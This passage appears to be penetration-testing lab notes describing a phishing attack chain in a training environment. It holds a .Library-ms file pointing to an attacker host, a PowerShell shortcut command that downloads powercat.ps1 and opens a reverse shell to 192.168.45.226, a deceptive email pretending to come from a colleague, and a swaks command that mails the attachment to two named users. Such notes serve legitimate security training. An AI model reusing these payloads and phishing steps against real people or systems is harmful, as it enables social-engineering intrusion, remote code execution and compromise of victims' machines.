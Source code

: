 ```xml
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.226</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
*Note: you don't need to change anything besides URL above*
Save the file and transfer it to `/home/kali/beyond`

Next we create a shortcut file on the Windows development box. Right-click the Desktop and select `New > Shortcut` and enter:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.226:8000/powercat.ps1'); powercat -c 192.168.45.226 -p 443 -e powershell"
```

Serve PowerCat via our Python3 server:
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
```

Create the email `body.txt`:
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

Send the email:
```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.50.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
*Note: when running the above command, can simply provide you don't need to provide fully qualified domain username. E.g., if mail@boringcomp.com is the user, you can just provide "mail" as the username*

#### "Host did not advertise authentication" Error
Remove `-ap` from the swaks command. Host may not require authentication at all and does not want it.

## Word Doc Macros
